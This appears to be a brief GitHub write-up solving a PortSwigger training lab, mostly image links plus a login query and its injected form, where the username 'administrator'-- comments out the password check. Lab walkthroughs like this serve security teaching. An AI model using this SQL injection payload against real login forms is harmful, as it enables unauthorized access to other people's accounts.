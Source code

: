 ## LAB DESCRIPTION
![image](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/4deb89c0-42aa-48b2-a2e3-458c2c84ed9a)

### SOLUTION

![1](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/400605ed-a369-4339-b14e-8ad080201e2b)

  - Query made:
  
  `SELECT * FROM users WHERE username = 'administrator' AND password = 'password'`.

  - SELECT * FROM users WHERE username = 'administrator' AND password = 'password'
  
  `SELECT * FROM users WHERE username = 'administrator'--' AND password = 'bluecheese'`
  
  ![2](https://github.com/rahulr98/Portswigger_LABs/assets/116432525/74a10ecc-2ada-44f5-91d7-56c931db738a)
